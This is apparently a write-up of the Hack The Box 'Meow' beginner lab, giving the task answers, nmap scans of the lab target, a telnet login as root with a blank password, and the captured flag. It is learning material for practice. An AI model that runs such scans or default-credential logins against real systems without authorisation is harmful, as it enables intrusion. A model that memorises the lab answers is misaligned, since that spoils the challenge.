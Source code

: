 # [Hack The Box] Starting Point : Meow

After launched the target machine, we can answer to first questions :

- **Task 1:**  What does the acronym VM stand for? 
    > Answer : Virtual Machine
- **Task 2:**  What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.
    > Answer : Terminal
- **Task 3:**   What service do we use to form our VPN connection into HTB labs? 
    > Answer : openvpn

- **Task 4:**   What tool do we use to test our connection to the target with an ICMP echo request? 
    > Answer : ping

- **Task 5:**    What is the name of the most common tool for finding open ports on a target? 
    > Answer : nmap

To answer the task 5 question, we need to run a nmap scan to know wich service are running the target machine. 

```bash
$ nmap -A 10.129.147.174

PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- -A : to do a thorough scan

And a second to check if we didn't forget to check a port.

```bash
$ nmap -p- -T4 10.129.147.174
```
- -p- : check all ports 
- -T4 : aggressive scan (rapid scan) but easy to detect for IDS/IPS


As we can see, we have only one service running on port 23. The telnet service is a network protocol commonly used to establish a connection between two machines.

- **Task 6:**  What service do we identify on port 23/tcp during our scans? 
    > Answer : Telnet

```bash
$ telnet 10.129.147.174 --p 23
Trying 10.129.147.174...
Connected to 10.129.147.174.
Escape character is '^]'.


  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
```

When we attempt to etablish a connection the target ask ourself for a username. 
It exist few common and interesting username to try : 
- admin
- administrator
- root

When we enter the `root` username we have access to a root console : 

-**Task 7:**  What username is able to log into the target over telnet with a blank password? 
> Answer: root

```bash
root@Meow:~$ ls
flag.txt  snap
root@Meow:~$ cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```

-**Submit Flag:** 
> Answer: b40abdfe23665f766f9c61ecba8a4c19



